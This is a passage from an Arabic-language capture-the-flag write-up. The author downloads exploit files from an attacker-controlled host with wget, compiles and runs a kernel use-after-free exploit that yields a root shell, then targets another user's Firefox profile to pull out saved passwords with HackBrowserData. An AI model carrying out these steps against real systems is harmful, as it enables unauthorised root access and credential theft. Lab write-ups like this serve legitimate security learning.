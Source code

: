 ```bash

beth@london:/tmp/exploit$ wget http://10.21.157.83:8081/Makefile
--2025-04-13 05:39:21--  http://10.21.157.83:8081/Makefile
Connecting to 10.21.157.83:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 70 [application/octet-stream]
Saving to: ‘Makefile’

Makefile                100%[============================>]      70  --.-KB/s    in 0s      

2025-04-13 05:39:22 (256 KB/s) - ‘Makefile’ saved [70/70]

beth@london:/tmp/exploit$ wget http://10.21.157.83:8081/symbols/ -r -nH
--2025-04-13 05:40:40--  http://10.21.157.83:8081/symbols
Connecting to 10.21.157.83:8081... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: /symbols/ [following]
--2025-04-13 05:40:41--  http://10.21.157.83:8081/symbols/
Reusing existing connection to 10.21.157.83:8081.
HTTP request sent, awaiting response... No data received.
Retrying.
...

beth@london:/tmp/exploit$ gcc exploit.c -o exploit -lpthread

beth@london:/tmp/exploit$ ./exploit  ubuntu
[+] Attempt 1/10
[+] Found kernel '4.15.0-112-generic' [run_cmd]
[+] Found kernel .text, 0xffffffffb9c00000
[!] need at least 3 cores ideally, found 2
[i] UAF seems to have missed :(
[i] Payload failed to run
[+] Attempt 2/10
[+] Found kernel '4.15.0-112-generic' [run_cmd]
[+] Found kernel .text, 0xffffffffb9c00000
[!] need at least 3 cores ideally, found 2
[+] UAF seems to have hit
[+] Payload ran correctly, spawning shell
uid=0(root) gid=0(root) groups=0(root),1000(beth)
bash-4.4# whoami
root
```
بعد ما حملت الملفات من جهازي ، بنيت السكربت وشغلته وحددت الديسترو، في هذه الحالة ubuntu  وبكذا صرت الروت، بعد ما أخذ العلم من المجلد الخاص بالروت راح يبقالي شي أخير وهو كلمة السر الخاصة بالمستخدم charles، بما إننا الروت نقدر ندخل للمجلد حقه ونشوف إيش عنده
```bash
bash-4.4# cd /home/charles
bash-4.4# ls -al
total 24
drw------- 3 charles charles 4096 Apr 23  2024 .
drwxr-xr-x 4 root    root    4096 Mar 10  2024 ..
lrwxrwxrwx 1 root    root       9 Apr 23  2024 .bash_history -> /dev/null
-rw------- 1 charles charles  220 Mar 10  2024 .bash_logout
-rw------- 1 charles charles 3771 Mar 10  2024 .bashrc
drw------- 3 charles charles 4096 Mar 16  2024 .mozilla # very interesting
-rw------- 1 charles charles  807 Mar 10  2024 .profile
```
عندنا مجلد mozilla. وهذا الشي غير عادي أبدا في تحديات الCTF خلينا نشوف إذا يمدينا نحصل شي من خلال قوقل. لقينا [هذا المقال](https://support.mozilla.org/ar/kb/profiles-where-firefox-stores-user-data) من موزيلا والواضح أن هذا المجلد يحوي معلومات المستخدم (كلمات المرور، كوكيز، سجل التصفح... إلخ). ممتاز جدا، خلينا نشوف إذا فيه سكربت يستخرج لنا كلمات المرور من هذا المجلد. بعد البحث حصلت هذه الأداة باسم [HackBrowserData](https://github.com/moonD4rk/HackBrowserData) ماراح أبني الثنائية من السورس، بحمل الثنائية الجاهزة لكن قبلها خليني أنقل المجلد عندي، في سيرفر التحدي راح أفتح سيرفر بايثون
```bash
```